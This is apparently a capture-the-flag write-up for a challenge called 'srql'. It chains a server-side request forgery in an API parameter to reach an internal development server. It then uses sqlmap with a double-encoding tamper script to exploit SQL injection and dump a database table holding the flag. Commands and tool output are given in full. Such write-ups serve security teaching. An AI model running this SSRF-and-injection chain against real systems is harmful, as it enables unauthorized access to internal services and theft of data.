 # srql ctf solution
Upon visiting http://srql.d.ctff.fun/ you're greeted with the following index page:

![Index](/srql/solution/img/index_page.png?raw=true "")


Upon inspecting the page / viewing the source we can see that the following HTML / JS is commented out:

```html
<!-- 
  <script>
    $.ajax({url: "api.php?call=changelog", success: function(result){
      $("#news").html(result);
    }});
</script>
-->
```

Jquery's `ajax()` method performs an asynchronous HTTP request, so we visit that endpoint: http://srql.d.ctff.fun/api.php?call=changelog

The response:

```
10/1/2019 - Our newly launched development server is up now at: http://devrandom.corp.d.ctff.fun:8080/
9/30/2019 - Fixed bug in API, some chars in parameters may now need to be encoded more than once to prevent tamper'ing
```

We see the development server "leaked" in the changelog, so attempt to resolve it: 

```
bork@doggos:~# host devrandom.corp.d.ctff.fun
devrandom.corp.d.ctff.fun has address 172.18.0.3
```

As we can see it's an internal ip address, pointing to something internally. A server-side request forgery vulnerability would allow us to hit this developer site. 

Setting the `?call=` parameter at http://srql.d.ctff.fun/api.php to an arbitrary URL: http://example.com

![example.com](/srql/solution/img/ssrf_example.png?raw=true "")

As we can see, the application  is actually making HTTP requests to any url we provide. Let's set it to the developer server we found in the changelog:

![DevServer](/srql/solution/img/dev_server_index.png?raw=true "")

In the response we see a form that submits via GET to `debug.php?name=developers`. Let's append it to the developer server URL: http://srql.d.ctff.fun/api.php?call=http://devrandom.corp.d.ctff.fun:8080/debug.php?name=developers

The page just responds with: `bobby tables`. That's a classic SQL injection joke, let's try seeing what happens if we add an ' to the end of the `?name=` parameter.

```
no results for query: SELECT name FROM developers'
```

It's clearly building SQL queries from our input, so lets try using sqlmap to dump the database:

Since we are using the SSRF to hit this internal server, we need to use the `-p` flag to specify the parameter we want to test. sqlmap will otherwise only attempt to inject the `?call=` parameter. We also will need to use the "chardoubleencode" tamper script – our payloads will need to be double url-encoded. If it's only encoded once, the server will decode them and recognize them as parameters to `http://srql.d.ctff.fun/api.php` and they won't be sent along to `http://devrandom.corp.d.ctff.fun:8080/debug.php` which is where we want them to be.

Let's try it:
```
bork@doggos:~#  python2 sqlmap.py -u "http://srql.d.ctff.fun/api.php?call=http://devrandom.corp.d.ctff.fun:8080/debug.php?name=developers*" --tamper=chardoubleencode -p 'name=' --dbs

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.4.9#dev}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

-- snip --
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 96 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: http://srql.d.ctff.fun:80/api.php?call=http://devrandom.corp.d.ctff.fun:8080/debug.php?name=developers UNION ALL SELECT CONCAT(CONCAT('qpxzq','InZAMqHlCKAHvNfKiBehKlNjYagoTOfAOUcahufy'),'qpkxq')-- ilEo
---
[21:00:07] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[21:00:07] [INFO] testing MySQL
[21:00:07] [INFO] confirming MySQL
[21:00:07] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.0
[21:00:07] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] randomcorp

[21:00:07] [INFO] fetched data logged to text files under '/Users/cdl/.sqlmap/output/srql.d.ctff.fun'

[*] ending @ 21:00:07 /2019-10-09/
```

It's injectable! Let's dump the "randomcorp" database with the sqlmap's `--dump` flag:

```
bork@doggos:~#  python2 sqlmap.py -u "http://srql.d.ctff.fun/api.php?call=http://devrandom.corp.d.ctff.fun:8080/debug.php?name=developers*" --tamper=chardoubleencode -p 'name='  -D randomcorp --dump

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.4.9#dev}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

-- snip --

[21:04:44] [INFO] fetching columns for table 'developers' in database 'randomcorp'
[21:04:44] [INFO] fetching entries for table 'developers' in database 'randomcorp'
Database: randomcorp
Table: developers
[1 entry]
+--------------+-------------------------+
| name         | secret                  |
+--------------+-------------------------+
| bobby tables | dsu{w0w_U_rlly_p1v0ted} |
+--------------+-------------------------+
```

Flag: `dsu{w0w_U_rlly_p1v0ted}`